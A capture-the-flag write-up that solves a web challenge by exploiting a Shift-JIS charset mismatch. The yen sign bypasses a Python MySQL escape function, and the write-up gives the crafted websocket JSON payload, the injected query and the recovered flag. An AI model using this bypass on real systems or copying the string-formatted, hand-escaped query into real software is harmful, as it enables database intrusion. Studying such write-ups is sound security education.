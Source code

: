 ### Solution
We are presented with a japanese website, with javascript on the client side
interacting with a mysql server over websockets.
 
On inspection of the server side code provided, we can see that the escape function
 is relatively sound, however it depends entirely on python strings.

``` python
# List from http://php.net/manual/en/function.mysql-real-escape-string.php
MYSQL_SPECIAL_CHARS = [
  ("\\", "\\\\"),
  ("\0", "\\0"),
  ("\n", "\\n"),
  ("\r", "\\r"),
  ("'", "\\'"),
  ('"', '\\"'),
  ("\x1a", "\\Z"),
]
def mysql_escape(s):
  for find, replace in  MYSQL_SPECIAL_CHARS:
    s = s.replace(find, replace)
  return s
```
 
We can also see that the language for database communications has been
set to sjis (supposedly so that it uses less bytes)

``` python
# Use Shift-JIS for everything so it uses less bytes
Response.charset = "shift-jis"
connect_params["charset"] = "sjis"
```

Another point of interest is the database queries section, specifically 
the section that has a select query. Presumably the flag is the first row in the database

``` python
...
      elif message["type"] == "get_answer":
        question = mysql_escape(message["question"])
        answer = mysql_escape(message["answer"])
        cursor.execute('SELECT * FROM answers WHERE question="%s" AND answer="%s"' % (question, answer))
        ws.send(json.dumps({"type": "got_answer", "row": cursor.fetchone()}))
...
```

After a bit of googling, we find out that sjis has replaced the backslash character
with the yen symbol (u00a5)- so in sjis systems, that character represents the same
byte value as the backslash character. This means that if we send the yen
symbol to python - it won't escape it, since it's a different byte value,
however when the database reads it, it reads it as 0x5c, which is an escape. We
can use this to our advantage to craft a payload that does a little bit of sql injection.
Another thing we have to be aware of is the message needs to be valid json, or the
server will close the connection.

The crafted json to send to the websocket:

``` json

{"answer": "", "question": "\u00a5\" or 1 = 1;", "type": "get_answer"}

```

and the resulting query (remember that ¥ is equivalent to \\):
``` sql
SELECT * FROM answers WHERE question="¥\" or 1 = 1;" AND answer=""
```

which results in the flag being obtained

``` json

{"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}

```
